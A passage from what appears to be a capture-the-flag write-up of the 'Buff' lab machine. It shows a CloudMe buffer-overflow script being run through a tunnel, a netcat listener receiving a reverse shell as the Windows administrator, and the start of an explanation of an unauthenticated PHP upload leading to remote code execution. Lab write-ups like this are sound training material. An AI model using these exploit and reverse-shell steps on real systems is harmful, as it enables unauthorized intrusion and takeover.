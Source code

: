

I changed the payload type (and included `LHOST` and `LPORT` needed for
this payload), and I used the `-v payload` to set the output payload
variable name so I can just paste it into the script.

### Shell

Now I just run the exploit through the tunnel with `nc` waiting (work
with either legacy Python or Python3):



    root@kali# python3 cloudme-bof.py 



At `nc`, I get an administrator shell:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.198.
    Ncat: Connection from 10.10.10.198:49683.
    Microsoft Windows [Version 10.0.17134.1550]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    whoami
    buff\administrator



And I can grab `root.txt`:



    C:\Users\Administrator\Desktop>type root.txt
    type root.txt
    0e2cf4e5************************



## Beyond Root

### Gym Exploit

The vulnerability here is an unauthenticated upload that leads to remote
code execution. Basically, I can upload PHP code into a place where it
is executed. The comment block at the top of the script lays out nicely
how this works in seven bullet points. I thought it might be useful to
step through each of these.

> <div>
>
> <div>
>
>     1. Access the '/upload.php' page, as it does not check for an authenticated user session.
>
> </div>
>
> </div>
